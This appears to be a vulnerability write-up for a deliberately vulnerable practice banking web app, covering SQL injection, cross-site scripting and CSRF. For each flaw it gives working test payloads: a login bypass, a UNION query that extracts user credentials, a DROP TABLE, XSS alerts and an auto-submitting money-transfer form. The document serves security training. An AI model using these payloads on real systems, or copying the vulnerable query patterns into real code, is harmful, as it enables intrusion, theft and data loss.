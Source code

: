 ### 1. SQL Injection Vulnerabilities
**Severity: Critical**

- **Location**: All database queries throughout the application
- **Description**: User input is directly concatenated into SQL queries without sanitization
- **Examples**:
  - Login: `SELECT * FROM users WHERE username = '$username' AND password = '$password'`
  - Transfer: `UPDATE users SET balance = balance - $amount WHERE account_number = '$from_account'`
  - Admin: `DELETE FROM users WHERE id = $user_id`

**Test Payloads**:
```sql
-- Login bypass
Username: admin' OR '1'='1' --
Password: anything

-- Extract all users
Username: ' UNION SELECT username, password, email, full_name, account_number, balance, is_admin FROM users --
Password: anything

-- Delete all users
Username: '; DROP TABLE users; --
Password: anything
```

### 2. Cross-Site Scripting (XSS)
**Severity: High**

- **Location**: Multiple pages where user input is displayed without encoding
- **Description**: User input is echoed directly to HTML without proper escaping
- **Examples**:
  - Transaction descriptions in `view_transactions.php`
  - User data in admin panel
  - Search results

**Test Payloads**:
```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
```

### 3. Cross-Site Request Forgery (CSRF)
**Severity: High**

- **Location**: All forms (transfer, profile update, admin actions)
- **Description**: No CSRF tokens or validation
- **Impact**: Attackers can perform actions on behalf of authenticated users

**Test Payload**:
```html
<form action="http://localhost/PenTest/Bank/transfer.php" method="POST">
    <input name="to_account" value="attacker_account">
    <input name="amount" value="1000">
    <input name="description" value="CSRF Attack">
</form>
<script>document.forms[0].submit()</script>
```
